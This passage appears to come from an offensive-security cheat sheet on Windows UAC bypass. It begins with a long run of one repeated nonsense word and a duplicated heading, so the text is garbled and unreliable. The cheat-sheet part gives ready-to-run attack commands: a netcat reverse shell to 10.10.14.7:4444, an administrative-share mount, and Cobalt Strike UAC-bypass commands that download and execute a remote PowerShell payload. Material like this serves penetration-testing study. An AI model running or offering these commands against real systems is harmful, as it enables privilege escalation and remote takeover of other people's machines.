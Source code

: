 vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'chugh vItlhutlhbe'ch
```bash
#Put your reverse shell instead of "calc.exe"
Start-Process powershell -Verb runAs "calc.exe"
Start-Process powershell -Verb runAs "C:\Windows\Temp\nc.exe -e powershell 10.10.14.7 4444"
```
#### UAC bypass with token duplication

* [https://ijustwannared.team/2017/11/05/uac-bypass-with-token-duplication/](https://ijustwannared.team/2017/11/05/uac-bypass-with-token-duplication/)
* [https://www.tiraniddo.dev/2018/10/farewell-to-token-stealing-uac-bypass.html](https://www.tiraniddo.dev/2018/10/farewell-to-token-stealing-uac-bypass.html)

### **Very** Basic UAC "bypass" (full file system access)

If you have a shell with a user that is inside the Administrators group you can **mount the C$** shared via SMB (file system) local in a new disk and you will have **access to everything inside the file system** (even Administrator home folder).

{% hint style="warning" %}
**Looks like this trick isn't working anymore**
{% endhint %}
```bash
net use Z: \\127.0.0.1\c$
cd C$

#Or you could just access it:
dir \\127.0.0.1\c$\Users\Administrator\Desktop
```
### UAC bypass with cobalt strike

Cobalt Strike techniques will only work if UAC is not set at its max security level.

### UAC bypass with cobalt strike

Cobalt Strike techniques will only work if UAC is not set at its max security level.
```bash
# UAC bypass via token duplication
elevate uac-token-duplication [listener_name]
# UAC bypass via service
elevate svc-exe [listener_name]

# Bypass UAC with Token Duplication
runasadmin uac-token-duplication powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"
# Bypass UAC with CMSTPLUA COM interface
runasadmin uac-cmstplua powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"
```
**Empire** and **Metasploit** also have several modules to **bypass** the **UAC**.
